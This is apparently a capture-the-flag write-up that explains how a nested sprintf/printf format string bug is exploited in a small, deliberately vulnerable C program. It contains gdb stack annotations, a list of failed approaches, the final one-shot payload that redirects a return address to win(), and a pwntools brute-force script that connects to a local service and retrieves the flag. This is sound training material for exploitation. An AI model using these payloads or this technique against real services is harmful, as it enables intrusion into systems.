

# three-little-lines

[library.m0unt41n.ch/challenges/three-little-lines](https://library.m0unt41n.ch/challenges/three-little-lines)   

# TL;DR

We get a simple C program and have to exploit a nested format string vulnerability - i.e.,
result of one format string processed by `sprintf()` is passed to `printf()` again, as a
format string. The difficulty is: we have *one shot*. No leaking pointers, no adjusting
subsequent payloads, etc. Just throw a single format string and hope it works.

I struggled a lot with this - while the code makes it immediately clear what tools we have at
our disposal, I lacked experience. In particular, telescope stack chains and
what-is-actually-pointing-to-what. The flag string reflects all that very well &#128578;

Following posts were very useful in getting me on the right track here:

*   [eth007.me/blog/ctf/stiller-printf](https://eth007.me/blog/ctf/stiller-printf)
*   [blog.redrocket.club/2020/12/23/HXPCTF-Still_Printf](http://blog.redrocket.club/2020/12/23/HXPCTF-Still_Printf)

# Code

```c
#include <stdio.h>
#include <stdlib.h>

void three_little_lines();

void indirection3() {
    three_little_lines();
}

void indirection2() {
    three_little_lines();
}

void indirection1() {
    indirection2();
}

void three_little_lines() {
    char b1[128],  // buf1, format string for sprintf
         b2[128];  // buf2
    fgets(b1, 32, stdin);  // reads 32b to buf 1
    sprintf(b2, b1);       // parse format string in buf1 and write output in buf2
    printf(b2);            // buf2 is a format string too! wit
}

void win() {
    puts("You win!");
    puts("cyberskills23{fake_flag}");
    exit(0);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    indirection1();
    return 0;
}
```

The container is running with `ubuntu:22.04` - which sounds generic enough (i.e. not initially suspecting
a specific attack vector related to this). All protections are on:

```
$ make
gcc -march=x86-64 -fstack-protector-all -pie -fPIE -Wl,-z,relro,-znow -Wl,-z,noexecstack -o three_little_lines main.c
$ checksec --file=three_little_lines
RELRO      STACK CANARY NX         PIE         RPATH    RUNPATH    Symbols    FORTIFY Fortified Fortifiable
Full RELRO Canary found NX enabled PIE enabled No RPATH No RUNPATH 49 Symbols No      0         3
```

## Adding some useful tools to the Dockerfile

For a format string exercise, with all the offset calculations etc, it only makes sense
to debug the code running inside the container. And even then, hoping that this is close
enough to be reproducible remotely.

Pasting my usual [pwndbg](https://github.com/pwndbg/pwndbg) snippet into Dockerfile, with some configs:

```Dockerfile
RUN apt-get install -y vim
RUN apt-get install -y python3-pip python3-dev git libssl-dev libffi-dev build-essential gdb git 
RUN python3 -m pip install --upgrade pip pwntools
RUN git clone --branch 2023.07.17 https://github.com/pwndbg/pwndbg  ~/pwndbg && cd ~/pwndbg && ./setup.sh
RUN echo "set startup-quietly on" >~/.gdbearlyinit
RUN echo "source ~/pwndbg/gdbinit.py\n\
set show-tips off\n\
set max-visualize-chunk-size 192\n\
set debuginfod enabled off\n\
set breakpoint pending on\n" >~/.gdbinit
RUN echo "export LC_CTYPE=C.UTF-8" >>~/.bashrc
```

Also patching the `ADD` config, Docker does not rebuild the image on any change in the directory:

```Dockerfile
ADD main.c Makefile ./
```

With that, we are ready to roll: `docker build -t test . && docker run -p 1337:1337 -it test:latest`

# Analysis

## Stack in three_little_lines()

<a name="gdbsetup"></a>

Let's try to inspect what's going on. Connect to the server (`telnet 127.0.0.1 1337`) and start gdb:

```
$ docker container exec -it $(docker ps -ql) /bin/sh`
root@e8f58c0d024a:/# gdb -p $(pgrep three_little)
(...)
pwndbg> break *three_little_lines+82                      # That's right before sprintf()
Breakpoint 1 at 0x563cf583e30f
pwndbg> c
Continuing.
```

Now, type `bla` in the telnet session - that will triger the breakpoint. Let's look at the stack:



There is a ton of information here. Let's annotate it some more, in particular, with references
to how to get to each element using `sprintf()` and `printf()` format strings. Note that they
are off-by-1, likely because of `sprintf()`'s extra argument.

| pwndbg     | Stack address    | sprintf# | printf#   | Value            | What is it        | Comment                                                           |
| :--------- | :--------------- | :------- | :-------- | :--------------- | :---------------- | :---------------------------------------------------------------- |
| `00:0000`  | `0x7ff......750` |  `%5$`   |  `%%6$`   |                  | `char b1[128]`    | User input / `sprintf()` fmtstring.<br>No more than 32B!<br><br>  |
| `10:0080`  | `0x7ff......7d0` | `%21$`   | `%%22$`   |                  | `char b2[128]`    | `sprintf()` output, `printf()` fmtstring.<br><br><br>             |
| `20:0100`  | `0x7ff......850` | `%37$`   | `%%38$`   | `0x000000000000` | (padding)         |                                                                   |
| `21:0108`  | `0x7ff......858` | `%38$`   | `%%39$`   | `0x__________00` | stack canary      |                                                                   |
| `22:0110`  | `0x7ff......860` | `%39$`   | `%%40$`   | `0x7ff......880` | saved RBP         | points to `26:0130`                                               |
| `23:0118`  | `0x7ff......868` | `%40$`   | `%%41$`   | `0x56.......26a` | `indirection2+37` | retaddr from `three_little_lines()`                               |
| `24:0120`  | `0x7ff......870` | `%41$`   | `%%42$`   | `0x7f..........` | (padding)         |                                                                   |
| `25:0128`  | `0x7ff......878` | `%42$`   | `%%43$`   | `0x__________00` | stack canary      |                                                                   |
| `26:0130`  | `0x7ff......880` | `%43$`   | `%%44$`   | `0x7ff......8a0` | saved RBP         | points to `2a:0150`                                               |
| `27:0138`  | `0x7ff......888` | `%44$`   | `%%45$`   | `0x56.......2a6` | `indirection1+37` | retaddr from `indirection2()`                                     |
| `28:0140`  | `0x7ff......890` | `%45$`   | `%%46$`   | `0x7ff......9d8` | (padding)         |                                                                   |
| `29:0148`  | `0x7ff......898` | `%46$`   | `%%47$`   | `0x__________00` | stack canary      |                                                                   |
| `2a:0150`  | `0x7ff......8a0` | `%47$`   | `%%48$`   | `0x7ff......8c0` | saved RBP         | points to `2e:0170`                                               |
| `2b:0158`  | `0x7ff......8a8` | `%48$`   | `%%49$`   | `0x56.......3c5` | `main+67`         | retaddr from `indirection1()`.                                    |
| `2c:0160`  | `0x7ff......8b0` | `%49$`   | `%%50$`   | `0x000000000000` | (padding)         |                                                                   |
| `2d:0168`  | `0x7ff......8b8` | `%50$`   | `%%51$`   | `0x__________00` | stack canary      |                                                                   |
| `2e:0170`  | `0x7ff......8c0` | `%51$`   | `%%52$`   | `0x000000000001` | saved RBP         |                                                                   |
| `2f:0178`  | `0x7ff......8c8` | `%52$`   | `%%53$`   | `0x7f..........` | ...               | retaddr from `main()`                                             |

## Pointers that we have

*   `indirection3()`       is: `0x56.......209`.<br>Not obviously useful?
*   `indirection2()`       is: `0x56.......245`.<br>Return from `three_little_lines()` is `0x56.......26a` (`indirection2+37`)
*   `indirection1()`       is: `0x56.......281`.<br>Return from `indirection2()`       is `0x56.......2a6` (`indirection1+37`)
*   `three_little_lines()` is: `0x56.......2bd`.<br>Return from `printf()`             is `0x56.......328` (`three_little_lines+107`)
*   `win()`                is: `0x56.......33f`.
*   `main()`               is: `0x56.......382`.<br>Return from `indirection1()`       is `0x56.......3c5` (`main+67`)

Additionally, if code pointers are like `0x56.......XXX`, **the flag is at `0x56.......200d`**.

## What did NOT work

[ Click on each item to expand details of that particular rabbit hole &#128578; ]

<details>

<summary><b>- Overflow <code>b2</code></b></summary>

We would have to send:

*   `10:0080` 128b of crap (or maybe useful stuff?)
*   `20:0100` 8b of crap or zeros
*   `21:0108` We would need to defeat the canary here
*   `22:0110` We can't break this too, otherwise `RSP` will go haywire down the line
*   `23:0118` And finally, write `*33f` here, for all possible values of `*`

All that while struggling to emit a zero from printf, etc. Doesn't sound realistic.

</details>

<details>

<summary><b>- Make <code>indirection1()</code> return to <code>win()</code> instead of <code>main()</code></b></summary>

Simplistic idea:

*   Use `%39$` to change `0x20` -> `0x28` in `%43$`
*   Use `%43$` to change `0xc5` -> `0x3f` in `%48$`

Except that won't work. Remember, `LEAVE` is effectively `MOV RSP,RBP ; POP RBP` so, we would get
a corrupted `RSP` way before we get to returning from `indirection1()`.

I had more ideas like:

*   Use `sprintf()` to generate `0x007ff......440` at beginning of `b2`, i.e. `%21$`. That will be: `%43$s%42$c%42$c`
    *   ... or `%22$`, that will be `xxxxxxxx%43$s%42$c%42$c` and we can refer to the pointer as `%%23$`
    *   ... or `%23$`, that will be `xxxxxxxxxxxxxxxx%43$s%42$c%42$c` and we can refer to the pointer as `%%24$`        
    *   In `XXXX` generate 90 chars, then `%24%hhn` will...
    
Well, no, this will still update the target, not the pointer &#128577;

</details>

<details>

<summary><b>- Make <code>printf()</code> use the flag address in the format string</b></summary>

Idea:

*   Further down the stack, I found `46:0230` (`%75$`/`%%76$`) which had `0x7f83c97192e0`
*   ... which was a pointer to `0x55bd392f3000`
*   ... and the flag is `0x200d` byte further
*   Writing `0x*00d` to %75$ will make it point to flag. Then I can printf `%%76$s` maybe?

Except that was too much for the first `sprintf()` (we have only up to 136 bytes in `b2`)

</details>

<details>

<summary><b>- Make <code>printf()</code> return to <code>win()</code> instead of <code>three_little_lines()</code></b></summary>

If we get printf to overwrite its `%$5` with `0x3f`, that would make it return to `win()`.

Annotated stack inside `printf()`:

```
1b:00d8 │       0x7ffdbb66db48 —▸ 0x55d754822328 (three_little_lines+107) ◂— nop 
3e:01f0 │ %39$  0x7ffdbb66dc60 —▸ 0x7ffdbb66dc80 —▸ 0x7ffdbb66dca0 —▸ 0x7ffdbb66dcc0 ◂— 0x1
42:0210 │ %43$  0x7ffdbb66dc80 —▸ 0x7ffdbb66dca0 —▸ 0x7ffdbb66dcc0 ◂— 0x1
46:0230 │ %47$  0x7ffdbb66dca0 —▸ 0x7ffdbb66dcc0 ◂— 0x1
4a:0250 │ %51$  0x7ffdbb66dcc0 ◂— 0x1
```

We would need to change `0x7ffdbb66dca0` in `42:0210` to `0x7ffdbb66db48`. And then, use that `%43$` to write `3f` at `1b:00d8`.
Conveniently, we already have `.....328` there, so, need just a single byte to turn it into `.....33f`.

The problem with that is similar to the attempt above: the first change would require emitting more characters than the space we have in `b2`.

</details>


## What WORKED

### Use chain of nested RBP pointers to make three_little_lines() return to win().

One convenient property of C calling convention is that, as we go deeper in the call stack,
the prolog/epilog leave a long trail of nested pointers from `push rbp ; move rbp,rsp`.
We already saw that in one of above attempts:

```
3e:01f0 │ 0x7ffdbb66dc60 —▸ 0x7ffdbb66dc80 —▸ 0x7ffdbb66dca0 —▸ 0x7ffdbb66dcc0 ◂— 0x1
```

These pointers are normally critical as if we corrupt them, that will corrupt RSP sometime down the line.
So, we need a chain that we don't care about corrupting. If we look at the stack in pwngdb, we see:

| pwndbg     | Stack address    | sprintf#  | printf#   | Value            | What is this      | Comment                        |
| :--------- | :--------------- | :-------- | :-------- | :--------------- | :---------------- | :----------------------------- |
| `23:0118`  | `0x7ff......3e8` | `%40$p`   | `%%41$p`  | `0x56.......26a` | `indirection2+37` | `three_little_lines()` retaddr |
| `26:0130`  | `0x7ff......400` | `%43$p`   | `%%44$p`  | `0x7ff......420` | saved RBP         | points to `2a:0150`            |
| `2a:0150`  | `0x7ff......420` | `%47$p`   | `%%48$p`  | `0x7ff......440` | saved RBP         |                                |

If we change `23:0118` to point to `win()` (`....33f`) instead of `indirection2+37`, then we don't care about breaking saved RBPs below.
Annoyingly, the original value is `....26a`, so, we will need to change *two* bytes - and guess the topmost nibble.

### The idea on paper

*   In `sprintf()`, write `0xe8` to LSB of `2a:0150`, via indirect pointer in `26:0130` (`%43$hhn`). Now, it's tricky:
    *   We can't write `0xe8` with `hhn`, we have only 128b in `b2`.
    *   Even if we could, that would make it `.....2e8`, not `......3e8`
    *   But, with few more runs, it turned out that the `.....3e8` part is variable, and can be e.g. `.....328` too.
    *   Which means that we keep on trying to use `0x28` (`56` decimal), it will eventually work
    *   `%56c%43$hhn` in `sprintf()` will do that.
*   Then, in `printf()`, write `0x*33f` (two LSB of `win` address) to indirect pointer at `2a:0150` (which now points to the retaddr from `three_little_lines`).
    *   Similarly, we don't know what bits 12-15 are, but, with an example run, we saw that `.....433f` is one of possible values.
    *   We already have 56 spaces in the buffer from `sprintf()`, so, we have to emit `(0x433f-56)`=`17159` characters.
    *   So, that part of the format string for `printf()` will be `%17159c%48$hn`. We need to escape the `%`s to make `sprintf()` ignore them.

The final format string would be then: `%56c%43$hhn%%17159c%%48$hn`.

We expect this to work at least 1 out of 256 times (16x for the `0x*8` part of the retaddr pointer and 16x for the `0x*33f` of `win()` address.

### One-off proof:

*   Connect to the server with telnet
*   In the container, attach `gdb` to the server process (`-p`)
*   Set a `break *three_little_lines+82` (right before `sprintf()`) and hit `c`
*   In telnet session type the above format string. The breakpoint will hit.

Attach GDB to a fresh server instance and break before `sprintf()` (as described [above](#gdbsetup))

What we see now in GDB:

*   As expected, the `0x28` has changed - it's `0x38` (`56`) now.
*   As expected, the `0x433f` has changed - it's `0x233f`.<br>Minus 56 characters above, that's `8967` characters to be emitted by second format string.
*   So, a format string that ***would have exploited*** this combo is: `%56c%43$hhn%%8967c%%48$hn`
*   Let's make it so! `set {char [26]} $rsi = "%56c%43$hhn%%8967c%%48$hn"`
*   `si` to step over `sprintf()`. Result:
    *   The `2a:0150` pointer changed and points to retaddr on stack now!
    *   `b2` is: `<--- 56 spaces --->%8967c%48$hn`
*   `si` few more times to step over `printf()`. Result:
    *   We got a bunch of spaces in the telnet session
    *   The `23:0118` retaddr changed to `win`

That's all we needed &#128578; Now we just have to try this enough times.

# Exploit

```python
import re
import pwn

pwn.context.update(log_level='warning')
for n in range(9999999):
    print(n, "\r", end="")  # counter
    io = pwn.remote('127.0.0.1', 1337)
    io.sendline(b'%56c%43$hhn%%17159c%%48$hn')
    response = str(io.recvall())
    if 'cyberskills23' in response:
        r = re.compile(r'cyberskills23{[^}]*}')
        print(r.findall(response)[0])
        break
    io.close()
```

This works locally - and remotely, too!

---

## `cyberskills23{format_format_format_what_where_how_???}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
